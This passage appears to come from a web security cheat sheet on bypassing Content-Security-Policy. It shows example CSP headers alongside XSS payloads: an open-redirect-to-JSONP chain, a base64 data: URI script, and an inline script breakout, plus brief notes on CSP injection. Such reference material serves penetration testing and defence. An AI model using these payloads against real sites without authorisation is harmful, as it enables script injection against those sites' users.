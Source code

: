 ## Bypass using open redirect

```http
Content-Security-Policy: script-src 'self' accounts.google.com/random/ website-with-redirect.com; object-src 'none';
```

There are two whitelisted domains from where scripts can be loaded to the webpage. If one of domains is vulnerable to open redirect you can craft a payload using redirect domain targeting to other whitelisted domains with a JSONP endpoint. XSS will execute because while redirection browser only validated host, but **not** the path parameters. Possible payload:

```html
">'><script src="https://website-with-redirect.com/redirect?url=https%3A//accounts.google.com/o/oauth2/revoke?callback=alert(1337)"></script>">
```

## CSP injection

CSP policy could be generated dynamically based on variables that are controlled by a user. If the variables are not properly validated you can inject your own directives into CSP and bypass a policy.

References:
- [Writeup: CSP Injection - CTFZone 2019 Quals - Shop Task](https://blog.blackfan.ru/2019/12/ctfzone-2019-shop.html)
- [Writeup: Bypassing CSP with policy injection by @garethheyes](https://portswigger.net/research/bypassing-csp-with-policy-injection)
- [Writeup: How to Hack Apple ID](https://zemnmez.medium.com/how-to-hack-apple-id-f3cc9b483a41)

## unsafe-eval

```http
Content-Security-Policy: script-src https://facebook.com https://google.com 'unsafe-eval' data: http://*; child-src 'none';
```

This is a misconfigured CSP policy due to usage of `unsafe-eval`. Possible payload: 

```html
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

## unsafe-inline

```http
Content-Security-Policy: script-src https://facebook.com https://google.com 'unsafe-inline' https://*; child-src 'none';
```

This policy will allow inline scripting due to usage of `unsafe-inline`. Possible payload:

```html
"/><script>alert(1337);</script>
```
